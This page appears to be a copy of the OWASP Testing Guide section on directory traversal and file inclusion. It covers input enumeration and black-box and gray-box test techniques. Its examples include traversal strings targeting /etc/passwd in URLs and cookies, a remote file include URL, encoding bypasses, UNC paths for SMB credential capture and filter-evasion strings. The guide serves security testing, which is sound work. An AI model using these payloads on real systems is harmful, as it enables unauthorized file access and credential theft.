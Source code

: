 ==========================================================================================
OTG-AUTHZ-001
==========================================================================================

|

디렉토리 트레버셜 및 파일 인클루트 테스트

|

개요
==========================================================================================

Many web applications use and manage files as part of their daily operation. 
Using input validation methods that have not been well designed or deployed, an aggressor could exploit the system in order to read or write files that are not intended to be accessible. 
In particular situations, it could be possible to execute arbitrary code
or system commands.
Traditionally, web servers and web applications implement authentication
mechanisms to control access to files and resources.
Web servers try to confine users’ files inside a "root directory" or
"web document root", which represents a physical directory on the
file system. Users have to consider this directory as the base directory
into the hierarchical structure of the web application.
The definition of the privileges is made using Access Control Lists
(ACL) which identify which users or groups are supposed to be
able to access, modify, or execute a specific file on the server.
These mechanisms are designed to prevent malicious users from
accessing sensitive files (for example, the common /etc/passwd
file on a UNIX-like platform) or to avoid the execution of system
commands.
Many web applications use server-side scripts to include different
kinds of files. It is quite common to use this method to manage images,
templates, load static texts, and so on. Unfortunately, these
applications expose security vulnerabilities if input parameters (i.e.,
form parameters, cookie values) are not correctly validated.
In web servers and web applications, this kind of problem arises
in path traversal/file include attacks. By exploiting this kind of vulnerability,
an attacker is able to read directories or files which they
normally couldn’t read, access data outside the web document root,
or include scripts and other kinds of files from external websites.
For the purpose of the OWASP Testing Guide, only the security
threats related to web applications will be considered and not
threats to web servers (e.g., the infamous "%5c escape code" into
Microsoft IIS web server). Further reading suggestions will be provided
in the references section for interested readers.
This kind of attack is also known as the dot-dot-slash attack (../),
directory traversal, directory climbing, or backtracking.
During an assessment, to discover path traversal and file include flaws, testers need to perform two different stages:

a. Input Vectors Enumeration (a systematic evaluation of each input vector)
b. Testing Techniques (a methodical evaluation of each attack technique used by an attacker to exploit the vulnerability)

|

테스트 방법
==========================================================================================

|

Black Box Testing
-----------------------------------------------------------------------------------------

**Input Vectors Enumeration**

In order to determine which part of the application is vulnerable to
input validation bypassing, the tester needs to enumerate all parts
of the application that accept content from the user. This also includes
HTTP GET and POST queries and common options like file
uploads and HTML forms.

Here are some examples of the checks to be performed at this stage:

- Are there request parameters which could be used for file-related operations?
- Are there unusual file extensions?
- Are there interesting variable names?

.. code-block:: console

    http://example.com/getUserProfile.jsp?item=ikki.html
    http://example.com/index.php?file=content
    http://example.com/main.cgi?home=index.htm

- Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?

.. code-block:: console

    Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:-
    TEMPLATE=flower
    Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

:Testing Techniques:

The next stage of testing is analyzing the input validation functions
present in the web application. Using the previous example, the dynamic
page called getUserProfile.jsp loads static information from a
file and shows the content to users. An attacker could insert the malicious
string "../../../../etc/passwd" to include the password hash file of
a Linux/UNIX system. Obviously, this kind of attack is possible only if
the validation checkpoint fails; according to the file system privileges,
the web application itself must be able to read the file.
To successfully test for this flaw, the tester needs to have knowledge
of the system being tested and the location of the files being requested.
There is no point requesting /etc/passwd from an IIS web server.

.. code-block:: console

    http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

For the cookies example:

.. code-block:: console

    Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd

It’s also possible to include files and scripts located on external website.

.. code-block:: console

    http://example.com/index.php?file=http://www.owasp.org/malicioustxt

The following example will demonstrate how it is possible to show
the source code of a CGI component, without using any path traversal
characters

.. code-block:: console

    http://example.com/main.cgi?home=main.cgi


The component called "main.cgi" is located in the same directory as
the normal HTML static files used by the application. In some cases
the tester needs to encode the requests using special characters (like
the "." dot, "%00" null, ...) in order to bypass file extension controls or to
prevent script execution.

Tip: It’s a common mistake by developers to not expect every form of
encoding and therefore only do validation for basic encoded content.
If at first the test string isn’t successful, try another encoding scheme.
Each operating system uses different characters as path separator:

Unix-like OS:

.. code-block:: console

    root directory: "/"
    directory separator: "/" 

Windows OS:

.. code-block:: console

    root directory: "<drive letter>:"
    directory separator: "/"

Classic Mac OS:

.. code-block:: console

    root directory: "<drive letter>:"
    directory separator: ":"

We should take in to account the following character encoding
mechanisms:

- URL encoding and double URL encoding

.. code-block:: console

    %2e%2e%2f represents ../
    %2e%2e/ represents ../
    ..%2f represents ../
    %2e%2e%5c represents ..\
    %2e%2e\ represents ..\
    ..%5c represents ..\
    %252e%252e%255c represents ..\
    ..%255c represents ..\ and so on.


- Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)

.. code-block:: console

    ..%c0%af represents ../
    ..%c1%9c represents ..\

There are other OS and application framework specific considerations
as well. For instance, Windows is flexible in its parsing of
file paths.

- Windows shell: Appending any of the following to paths used in a shell command results in no difference in function:
- Angle brackets ">" and "<" at the end of the path
- Double quotes (closed properly) at the end of the path
- Extraneous current directory markers such as "./" or ".\\"
- Extraneous parent directory markers with arbitrary items that may or may not exist

Examples:

.. code-block:: console

    – file.txt
    – file.txt...
    – file.txt<spaces>
    – file.txt""""
    – file.txt<<<>>><
    – ./././file.txt
    – nonexistant/../file.txt 

- Windows API: The following items are discarded when used in any
shell command or API call where a string is taken as a filename:

.. code-block:: console

    periods
    spaces

• Windows UNC Filepaths: Used to reference files on SMB shares.
Sometimes, an application can be made to refer to files on a remote
UNC filepath. If so, the Windows SMB server may send stored
credentials to the attacker, which can be captured and cracked. These
may also be used with a self-referential IP address or domain name
to evade filters, or used to access files on SMB shares inaccessible to
the attacker, but accessible from the web server.

.. code-block:: console

    \\server_or_ip\path\to\file.abc
    \\?\server_or_ip\path\to\file.abc

• Windows NT Device Namespace: Used to refer to the Windows
device namespace. Certain references will allow access to file
systems using a different path.
• May be equivalent to a drive letter such as c:\, or even a drive volume
without an assigned letter.

.. code-block:: console

    \\.\GLOBALROOT\Device\HarddiskVolume1\

Refers to the first disc drive on the machine.

.. code-block:: console

    \\.\CdRom0\

|

Gray Box testing
-----------------------------------------------------------------------------------------

When the analysis is performed with a Gray Box approach, testers
have to follow the same methodology as in Black Box Testing. However,
since they can review the source code, it is possible to search
the input vectors (stage (a) of the testing) more easily and accurately.
During a source code review, they can use simple tools (such as the
grep command) to search for one or more common patterns within
the application code: inclusion functions/methods, filesystem operations,
and so on

.. code-block:: console

    PHP: include(), include_once(), require(), require_once(), fopen(),
    readfile(), ... 
    JSP/Servlet: java.io.File(), java.io.FileReader(), ...
    ASP: include file, include virtual, ...

Using online code search engines (e.g., Ohloh Code[1]), it may also be
possible to find path traversal flaws in Open Source software published
on the Internet.
For PHP, testers can use:

.. code-block:: console

    lang:php (include|require)(_once)?\s*[‘"(]?\s*\$_
    (GET|POST|COOKIE)

Using the Gray Box Testing method, it is possible to discover vulnerabilities
that are usually harder to discover, or even impossible to find
during a standard Black Box assessment.
Some web applications generate dynamic pages using values and parameters
stored in a database. It may be possible to insert specially
crafted path traversal strings when the application adds data to the
database. This kind of security problem is difficult to discover due to
the fact the parameters inside the inclusion functions seem internal
and "safe" but are not in reality.
Additionally, by reviewing the source code it is possible to analyze the
functions that are supposed to handle invalid input: some developers
try to change invalid input to make it valid, avoiding warnings and errors.
These functions are usually prone to security flaws.
Consider a web application with these instructions:

.. code-block:: console

    filename = Request.QueryString("file");
    Replace(filename, "/","\");
    Replace(filename, "..\","");

Testing for the flaw is achieved by:

.. code-block:: console

    file=....//....//boot.ini
    file=....\\....\\boot.ini
    file= ..\..\boot.ini 

|

Tools
==========================================================================================

• DotDotPwn - The Directory Traversal Fuzzer - http://dotdotpwn.sectester.net
• Path Traversal Fuzz Strings (from WFuzz Tool) - http://code.google.
com/p/wfuzz/source/browse/trunk/wordlist/Injections/Traversal.txt
• Web Proxy (Burp Suite[2], Paros[3], WebScarab[4],OWASP: Zed Attack
Proxy (ZAP)[5])
• Enconding/Decoding tools
• String searcher "grep" - http://www.gnu.org/software/grep/

|

References
==========================================================================================

Whitepapers
• phpBB Attachment Mod Directory Traversal HTTP POST Injection -
http://archives.neohapsis.com/archives/fulldisclosure/2004-12/0290.
html[6]
• Windows File Pseudonyms: Pwnage and Poetry - http://www.slideshare.net/BaronZor/windows-file-pseudonyms[7]